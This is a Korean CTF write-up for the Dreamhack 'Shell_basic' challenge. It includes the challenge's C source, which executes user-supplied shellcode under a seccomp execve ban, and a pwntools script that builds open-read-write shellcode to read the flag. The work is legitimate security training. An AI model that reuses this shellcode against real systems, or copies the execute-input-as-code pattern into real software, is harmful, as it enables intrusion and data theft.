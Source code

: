 # [Shell_basic](https://dreamhack.io/wargame/challenges/410/) 

 문제 파일의 코드는 다음과 같다. 

```C
// Compile: gcc -o shell_basic shell_basic.c -lseccomp
// apt install seccomp libseccomp-dev

#include <fcntl.h>
#include <seccomp.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/prctl.h>
#include <unistd.h>
#include <sys/mman.h>
#include <signal.h>

void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}

void init() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    signal(SIGALRM, alarm_handler);
    alarm(10);
}

void banned_execve() {
  scmp_filter_ctx ctx;
  ctx = seccomp_init(SCMP_ACT_ALLOW);
  if (ctx == NULL) {
    exit(0);
  }
  seccomp_rule_add(ctx, SCMP_ACT_KILL, SCMP_SYS(execve), 0);
  seccomp_rule_add(ctx, SCMP_ACT_KILL, SCMP_SYS(execveat), 0);

  seccomp_load(ctx);
}

void main(int argc, char *argv[]) {
  char *shellcode = mmap(NULL, 0x1000, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);   
  void (*sc)();
  
  init();
  
  banned_execve();

  printf("shellcode: ");
  read(0, shellcode, 0x1000);

  sc = (void *)shellcode;
  sc();
}
```

## 문제 분석 

 처음 문제를 풀기전에는 mmap이라는 생소한 함수가 있어서 굉장히 당황스러웠다.

공부를 해서 찾아보니 문제에 적힌 코드 
char *shellcode = mmap(NULL, 0x1000, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);의 뜻은 핵심만 말하자면 offset(마지막 argument 0)에서 시작해서 0x1000바이트만큼을 start주소(첫번째 argument NULL)로 맵핑한다는 의미다. PROT인자는 메모리 보호모드의 종류이다. 여기서 fd값은 -1이다. 스택오버플로우에서 찾아보니 fd 값을 -1로 하여 mmap함수를 사요하는 것은 메모리를 할당하는 방법 중의 하나라고 한다. 

유심히 봐야할 코드는 

read(0, shellcode, 0x1000);

sc = (void *)shellcode; 이다.

표준입력을 통해 shellcode의 값을 입력받고 

이 값을 함수포인터에 type casting을 하여 대입하는 것이다. 
그렇다면 함수포인터에는 shellcode의 시작주소가 담기게 될 것이기때문에 sc를 호출하는 순간 쉘코드를 실행시킬 수 있는 것이다.

이 문제의 목적은 제시한 플래그 파일을 읽어서 플래그를 획득(출력)하는 것이다. 
즉 우리는 orw shellcode를 이용하는 exploit script를 작성하면 된다.

## exploit script 

다음은 해당 문제에 대한 exploit script로 파이썬 모듈 중 pwntools를 사용하여 작성하였다. 

```python
from pwn import* 
# importing pwntools
p = remote('host1.dreamhack.games',10732) 
# 원격서버를 대상으로 실제로 공격하므로 remote함수를 사용 인자는 각각 호스트와 포트

context.arch = 'amd64' 
#공격 대상 아키텍쳐는 x86-64

path = "/home/shell_basic/flag_name_is_loooooong"
#flag 위치와 이름

code = ''

code += shellcraft.open(path,0 ,0)
#shellcraft를 이용하여 open system call의 쉘코드를 사용.

code += shellcraft.read('rax','rsp',0x1000)
#shellcraft를 이용하여 read system call의 쉘코드를 사용. 인자는 fd,buffer,count 순이다. 
#fd 인자로 rax를 쓰는 이유는 open syscall의 반환 값이 rax에 저장되기 때문이다. 주의해야할 점은 buffer 인자로 rsp - count가 아니라 rsp 값을 대입해야한다.

code += shellcraft.write(1,'rsp',0x1000)
#shellcraft를 이용하여 read system call의 쉘코드를 사용. 인자는 fd,buffer,count 순이다. 
#인자가 read와 같다.

print(p.recv())
#출력데이터 받아서 출력.

p.sendline(asm(code)) 
#작성한 쉘코드+'\n'를 기계어로 변환하여 전송 

print(p.recvuntil('}'))
#플래그 형식은 DH{...}이므로 출력데이터를 '}'가 출력될 때까지 받아서 출력. 
```
